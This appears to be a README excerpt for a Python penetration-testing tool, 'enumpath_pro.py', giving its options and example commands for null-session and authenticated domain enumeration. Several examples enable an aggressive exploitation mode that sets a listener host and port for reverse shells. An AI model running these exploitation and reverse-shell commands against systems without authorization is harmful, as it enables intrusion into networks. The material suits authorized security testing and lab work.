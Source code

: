 ### Basic Syntax
```bash
python3 enumpath_pro.py -t <TARGET_IP> [OPTIONS]
```

### Common Options
| Option | Description | Example |
|--------|-------------|---------|
| `-t, --target` | Target IP address (required) | `10.10.10.100` |
| `-u, --username` | Username for authentication | `administrator` |
| `-p, --password` | Password for authentication | `Password123` |
| `-d, --domain` | Domain name | `CORP.LOCAL` |
| `--aggressive` | Enable exploitation modules | - |
| `--lhost` | Local IP for reverse shells | `10.10.14.1` |
| `--lport` | Local port for reverse shells | `4444` |
| `--threads` | Number of threads (default: 8) | `16` |
| `-v, --verbose` | Verbose output | - |
| `-o, --output` | Custom output directory | `results` |

### Usage Examples

#### 1. Basic Null Session Enumeration
```bash
python3 enumpath_pro.py -t 10.10.10.100
```

#### 2. Authenticated Enumeration
```bash
python3 enumpath_pro.py -t 10.10.10.100 -u john -p Password123
```

#### 3. Domain User with Full Enumeration
```bash
python3 enumpath_pro.py -t 10.10.10.100 -d CORP.LOCAL -u john -p Password123 -v
```

#### 4. Aggressive Mode with Exploitation
```bash
python3 enumpath_pro.py -t 10.10.10.100 -u administrator -p Admin123 \
    --aggressive --lhost 10.10.14.1 --lport 4444
```

#### 5. Full Red Team Engagement
```bash
python3 enumpath_pro.py -t 10.10.10.100 -d CORP.LOCAL -u admin -p Password1 \
    --aggressive --lhost 10.10.14.1 --threads 16 -v -o full_assessment
```

---